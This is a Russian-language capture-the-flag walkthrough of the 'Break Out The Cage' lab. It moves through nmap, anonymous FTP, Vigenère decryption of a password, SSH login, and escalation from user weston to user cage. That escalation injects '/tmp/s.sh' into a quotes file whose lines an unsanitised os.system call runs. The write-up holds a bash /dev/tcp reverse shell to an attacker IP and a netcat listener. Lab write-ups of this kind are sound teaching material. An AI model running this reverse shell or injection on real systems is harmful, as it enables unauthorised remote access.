# Break Out The Cage


## Reconnaissance

На начальном этапе был выполнен базовый скан целевой машины при помощи `nmap` для определения доступных сервисов.

```bash
nmap 10.113.150.122
```

В результате сканирования были обнаружены следующие открытые порты:

- `21/tcp` — FTP
- `22/tcp` — SSH
- `80/tcp` — HTTP



Для получения более подробной информации о сервисах был выполнен углублённый скан `nmap` с использованием стандартных NSE-скриптов и определением версий служб.

```bash
nmap -sC -sV -p 21,22,80 10.113.150.122
```

Используемые флаги:

- `-sC` — запуск стандартного набора NSE-скриптов
- `-sV` — определение версий сервисов
- `-p 21,22,80` — сканирование только указанных портов

В результате сканирования было установлено, что FTP-сервер использует `vsftpd 3.0.3` и поддерживает анонимную авторизацию.

```text
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Также NSE-скрипт показал наличие файла `dad_tasks` в директории FTP-сервера.

```text
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
```

Дополнительно были определены версии остальных сервисов:

- SSH — `OpenSSH 7.6p1`
- HTTP — `Apache 2.4.29`

Заголовок веб-страницы:

```text
|_http-title: Nicholas Cage Stories
```



## FTP Enumeration

Для дальнейшего исследования был выполнен вход на FTP-сервер с использованием анонимной авторизации.

```bash
ftp 10.113.150.122 21
```

После подключения был обнаружен файл `dad_tasks`, который был загружен на локальную машину.

```bash
get dad_tasks
```



После загрузки файла был выполнен просмотр его содержимого.

```bash
cat dad_tasks
```

В файле находилась строка, похожая на Base64-кодированные данные.

```text
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYu
```



Для дальнейшего анализа содержимое было загружено в [CyberChef](https://cyberchef.org/).



После использования функции автоматического распознавания (`Magic`) удалось получить следующий текст:

```text
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

Несмотря на успешное Base64-декодирование, полученный текст всё ещё оставался нечитаемым. При этом структура строк, пробелы между словами и наличие повторяющихся символов указывали на то, что данные были дополнительно зашифрованы, а не случайно повреждены.

Также можно заметить:

- сохранение структуры предложений;
- наличие повторяющихся паттернов;
- использование только читаемых ASCII-символов;
- отсутствие случайного бинарного мусора.

Это позволило предположить использование классического текстового шифра, что и стало причиной дальнейшего анализа алгоритма шифрования.



Для определения типа шифрования был выполнен анализ текста с использованием сервиса [Boxentriq Cipher Identifier](https://www.boxentriq.com/). Также для подобных задач можно использовать любые онлайн-сервисы по запросу `cipher identification online`.



После анализа результатов было установлено, что наиболее вероятно используется шифр Виженера (`Vigenère Cipher`).

Шифр Виженера — это метод полиалфавитного шифрования, в котором для смещения символов используется ключевое слово. В отличие от шифра Цезаря, где применяется фиксированный сдвиг, шифр Виженера использует несколько различных сдвигов в зависимости от символов ключа, что делает частотный анализ значительно сложнее.

Сервис анализа также указывал на высокую вероятность использования именно данного типа шифрования.



После определения вероятного типа шифрования была выполнена попытка автоматической расшифровки шифра Виженера с подбором ключа при помощи сервиса [dCode Vigenère Cipher](https://www.dcode.fr/vigenere-cipher).

В результате удалось получить следующий расшифрованный текст:

```text
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

Из расшифрованного текста был получен потенциальный пароль:

```text
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

Также текст указывал на возможную связь с веб-приложением и дальнейшей эксплуатацией пользовательских учётных данных.



В процессе анализа задания присутствовал вопрос:

```text
What is Weston's password?
```

В качестве ответа был использован пароль, полученный после расшифровки содержимого файла `dad_tasks`.

```text
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

Пароль оказался корректным, что подтвердило успешность проведённого криптоанализа и правильность предположения о наличии скрытых учётных данных в расшифрованном сообщении.



Далее выполняется подключение к целевой машине по SSH с использованием ранее найденных учётных данных.

```bash
ssh weston@10.113.150.122
```

При первом подключении происходит подтверждение доверия к хосту и добавление его ключа в known_hosts.

После ввода пароля:

```text
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

соединение успешно устанавливается.

В результате пользователь получает доступ к системе Ubuntu 18.04.4 LTS под пользователем `weston`.



## Privilege escalation / system enumeration

После получения доступа к системе под пользователем `weston` была начата локальная разведка с целью поиска потенциальных путей повышения привилегий и изучения структуры системы.

### Переход в домашний каталог

```bash
cd /home
ls
ls -la  # подробный вывод (права, владельцы, размеры, скрытые файлы)
```

В системе обнаружено два пользовательских аккаунта:

- `weston` (текущий пользователь)
- `cage` (другой пользователь системы)

При просмотре прав доступа видно, что домашняя директория `cage` имеет строгие ограничения:

```text
drwx------  7 cage   cage
```

Это означает, что доступ к ней разрешён только владельцу (`cage`), что потенциально указывает на важный пользовательский контекст для дальнейшего исследования.

---

## Поиск файлов, принадлежащих пользователю cage

Для поиска файлов, принадлежащих пользователю `cage`, была использована команда `find`:

```bash
find / -type f -user cage 2>/dev/null
```

### Используемые параметры:

- `find /` — поиск по всей файловой системе
- `-type f` — только файлы
- `-user cage` — фильтрация по владельцу `cage`
- `2>/dev/null` — подавление ошибок доступа (чтобы не засорять вывод)

### Результат поиска:

```text
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

Это указывает на скрытую директорию `/opt/.dads_scripts/`, содержащую скрипты, связанные с пользователем `cage`.

---

## Анализ найденного скрипта

Был изучен Python-скрипт:

```bash
cat /opt/.dads_scripts/spread_the_quotes.py
```

### Содержимое:

```python
#!/usr/bin/env python

import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

### Анализ поведения скрипта:

Скрипт выполняет следующие действия:

1. Читает файл с цитатами:
   ```
   /opt/.dads_scripts/.files/.quotes
   ```
2. Выбирает случайную строку из файла
3. Отправляет её всем пользователям системы через команду:
   ```bash
   wall
   ```

Команда `wall` используется для рассылки сообщений всем активным пользователям терминала.

---

## Наблюдаемое поведение системы

Во время работы системы периодически появлялись сообщения в терминале от пользователя `cage`, например:

```text
Broadcast message from cage@national-treasure (Sat May  9 06:27:01):

People don't throw things at me any more. Maybe because I carry a bow around. — The Weather Man
```

### Вывод:

- Эти сообщения являются автоматической рассылкой цитат
- Они генерируются скриптом `spread_the_quotes.py`
- Используется механизм `wall`, распространяющий сообщения на все сессии
- Сообщения не содержат полезной технической информации для эксплуатации системы

Таким образом, на данном этапе выявлен пользовательский автоматизированный скрипт, работающий от имени `cage`, который может быть потенциальной точкой дальнейшего исследования (в частности — содержимое файла `.quotes` и механика его генерации).

## Privilege escalation via writable script injection

### Проверка прав на файл `.quotes`

Было проверено, можно ли изменять файл, используемый системой для генерации сообщений:

```bash
ls -la /opt/.dads_scripts/.files/.quotes
```

Результат:

```text
-rwxrw---- 1 cage cage 4204 May 25  2020 /opt/.dads_scripts/.files/.quotes
```

Это означает, что файл принадлежит пользователю `cage` и группе `cage`, а также имеет права на запись для группы.

---

## Подготовка reverse shell payload

Для создания обратного соединения был подготовлен bash-скрипт в `/tmp`.

### Попытка создания файла

При использовании `echo` и `printf` возникла ошибка из-за интерпретации символа `!` (history expansion в bash):

```bash
-bash: !/bin/bash: event not found
```

---

### Корректное создание скрипта

Был использован heredoc:

```bash
cat > s.sh << EOF
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.218.205/9001 0>&1
EOF
```

### Что делает payload:

- `/bin/bash -i` — интерактивный bash
- `/dev/tcp/IP/PORT` — TCP соединение на атакующую машину
- `>&` и `0>&1` — перенаправление stdin/stdout/stderr в сокет

📌 IP `192.168.218.205` взят с интерфейса `tun0` (VPN-адаптер, используемый в лабораторной сети).

---

## Подготовка listener-а

На атакующей машине был запущен netcat listener:

```bash
nc -lvnp 9001
```

### Параметры:

- `-l` — режим прослушивания
- `-v` — verbose вывод
- `-n` — без DNS резолва
- `-p 9001` — порт прослушивания

---

## Подготовка исполнения payload

Скрипт получил права на выполнение:

```bash
chmod +x s.sh
```

---

## Эксплуатация через writable file

Далее содержимое файла `.quotes` было перезаписано:

```bash
echo 'masquadd;/tmp/s.sh' > /opt/.dads_scripts/.files/.quotes
```

### Суть атаки:

Так как ранее было установлено, что:

- скрипт `spread_the_quotes.py` выполняется системой
- он использует `wall` для вывода строк из `.quotes`

то вставка строки, содержащей команду `/tmp/s.sh`, приводит к её исполнению в контексте пользователя `cage`.

---

## Получение reverse shell

После выполнения триггера был получен входящий shell на listener:

```text
connect to [192.168.218.205] from (UNKNOWN) [10.113.150.122]
```

### Результат:

```bash
cage@national-treasure:~$ ls
email_backup
Super_Duper_Checklist
```

Был успешно получен доступ от имени пользователя `cage`, что подтверждает успешную эскалацию привилегий с `weston` → `cage`.

## Post-exploitation / user flag discovery

После получения доступа от имени пользователя `cage` был выполнен базовый осмотр домашней директории:

```bash
ls
```

```text
email_backup
Super_Duper_Checklist
```

---

## Анализ найденных файлов

Был изучен файл:

```bash
cat Super_Duper_Checklist
```

Внутри содержался список заметок, относящихся к пользователю и задачам системы.

```text
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{████████████████████████}
```

---

## Получение флага

В последней строке файла был обнаружен флаг задания:

```text
THM{████████████████████████}
```

📌 Флаг был намеренно скрыт в отчёте (redacted), так как является решением задания.

---

## User Flag

В результате пост-эксплуатационного анализа пользовательских файлов был обнаружен user-флаг в файле `Super_Duper_Checklist`.

Флаг не требовал повышения привилегий до root и был доступен в контексте пользователя `cage`.

Таким образом, цепочка уязвимостей позволила успешно:
- получить доступ к системе через SSH
- повысить привилегии с `weston` до `cage`
- извлечь user-флаг из локальных файлов

Финальная информация была получена в ходе анализа пользовательских данных после эскалации привилегий.

## Email enumeration (post-exploitation)

В домашней директории пользователя `cage` была обнаружена папка с резервными копиями email-сообщений:

```bash
cd email_backup
ls -la
```

```text
-rw-rw-r-- 1 cage cage  email_1
-rw-rw-r-- 1 cage cage  email_2
-rw-rw-r-- 1 cage cage  email_3
```

Было выполнено объединённое чтение всех писем:

```bash
cat email_1 email_2 email_3
```

---

## Анализ писем

В переписке между пользователями `Cage`, `SeanArcher` и `Weston` были найдены следующие важные наблюдения:

- постоянные отсылки к теме **“face”**
- упоминание странной строки:

```text
haiinspsyanileph
```

- явные намёки на скрытую информацию, связанную с аккаунтами
- повторяющийся акцент на слове **FACE**

---

## Выявление скрытого ключа

На основе контекста писем было сделано предположение, что строка:

```text
haiinspsyanileph
```

является зашифрованным сообщением.

Для расшифровки использовался сервис:

https://www.dcode.fr/vigenere-cipher



---

## Результат расшифровки

После применения анализа Виженера был получен следующий результат:

```text
FACE cageisnotalegend
```

---

## Интерпретация результата

Расшифрованная строка состоит из двух частей:

- `FACE` — ключевое слово, повторяющийся мотив из писем (постоянные шутки и акценты на “face”, маски и “Face/Off”)
- `cageisnotalegend` — скрытое утверждение, вероятно используемое как пароль или проверочная фраза

### Связь с контекстом задачи:

- тема писем постоянно вращалась вокруг лица (`face`)
- упоминались маски с лицом и фильм *Face/Off*
